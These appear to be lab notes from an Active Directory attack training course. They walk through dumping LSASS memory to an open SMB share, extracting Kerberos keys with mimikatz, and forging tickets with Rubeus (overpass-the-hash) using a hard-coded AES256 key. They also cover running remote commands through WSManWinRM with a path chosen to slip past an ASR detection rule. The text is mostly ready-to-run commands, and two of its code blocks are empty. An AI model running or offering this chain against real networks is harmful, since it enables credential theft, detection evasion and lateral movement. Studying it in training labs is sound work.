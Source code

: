 Must have `FindLSASSPID` and `minidumpdotnet` ready first

Create a SMB share thats available to `Everyone`, `Guests` and `Anonymous Logon `
```powershell
net share share=C:\AD\Tools\share /grant:Everyone,Full
```
![[Pasted image 20250521220229.png]]
Run `FindLSASSPID` from share
```powershell
\\DCORP-STD548.dollarcorp.moneycorp.local\share\FindLSASSPID.exe
```

Break execution chain
```powershell

```

Run minidumpdotnet
```powershell
\\DCORP-STD548.dollarcorp.moneycorp.local\share\\minidumpdotnet.exe 708 \\DCORP-STD548.dollarcorp.moneycorp.local\share\monkey1.dmp
```

> **Note:** Since the memory dump is being written to a fileshare, **you may need to wait for up to 10  minutes**. The dump file size will initially be `0KB` but eventually be something approximately `10MB`. 

Break execution chain again
```powershell

```

Extract credentials on host machine
```powershell
.\mimikatz.exe "sekurlsa::minidump C:\AD\Tools\share\monkey1.dmp" "sekurlsa::ekeys" "exit"
```

OPtH
```powershell
.\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

To avoid detection, we can use the `WSManWinRM.exe` tool. We will append an `ASR` exclusion such as  `C:\Windows\ccmcache\` to avoid detections from the "Block process creations originating from `PSExec` and `WMI` commands" `ASR` rule. Run the below command from the process spawned as `dbadmin`:

> **Note:** if the tool returns a value of 0, there is an error with command execution.

We can see the command output by piping it to a file on a our share
```powershell
WSManWinRM.exe eu-sqlx.eu.eurocorp.local "cmd /c dir >> \\DCORP-STD548.dollarcorp.moneycorp.local\share\out.txt C:\Windows\ccmcache\"
```